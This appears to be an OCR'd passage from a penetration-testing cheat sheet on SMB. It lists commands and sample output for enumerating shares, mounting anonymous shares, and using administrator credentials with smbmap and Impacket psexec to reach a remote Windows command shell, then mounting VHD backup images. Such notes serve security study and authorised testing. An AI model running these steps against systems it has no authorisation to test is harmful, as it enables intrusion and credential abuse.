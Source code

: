 ```
> $ smbclient -L \\\\<HOST_IP>
```

If SMB Ports are open, we can look for anonymous login to mount misconfigured shares.

```
> $ mkdir /mnt/smb
> $ mount -t cifs //<REMOTE_SMB_IP>/<SHARE> /mnt/smb/
Password for root@//<HOST_IP>/<SHARE>: 
```
 
If we found Administrator Credentials for SMB, Access the root shell using this method.

```
> $ /opt/impacket/examples# smbmap -u administrator -p password -H <HOST_IP>
[+] Finding open SMB ports....
[+] User SMB session establishd on <HOST_IP>...
[+] IP: <HOST_IP>:445	Name: <HOST_IP>                                      
	 Disk                                                  	Permissions
	 ----                                                  	-----------
	 ADMIN$                                            	READ, WRITE
	 Backups                                           	READ, WRITE
	 C$                                                	READ, WRITE
	 IPC$                                              	READ ONLY
  
> $ /opt/impacket/examples# python psexec.py administrator@<HOST_IP>
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

  Password:
  [*] Requesting shares on <HOST_IP>.....
  [*] Found writable share ADMIN$
  [*] Uploading file tJJmcVQN.exe
  [*] Opening SVCManager on <HOST_IP>.....
  [*] Creating service RKAe on <HOST_IP>....
  [*] Starting service RKAe.....
  [!] Press help for extra shell commands
  Microsoft Windows [Version 10.0.14393]
  (c) 2016 Microsoft Corporation. All rights reserved.

  C:\Windows\system32>
```

### To Extract and Mount VHD Drive Files

```
> $ 7z l <FILENAME>.vhd
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-5200U CPU @ 2.20GHz (306D4),ASM,AES-NI)
Scanning the drive for archives:
1 file, 5418299392 bytes (5168 MiB)
Listing archive: <FILENAME>.vhd

> $ guestmount --add <VHD_NAME>.vhd --inspector -ro -v /mnt/vhd
```
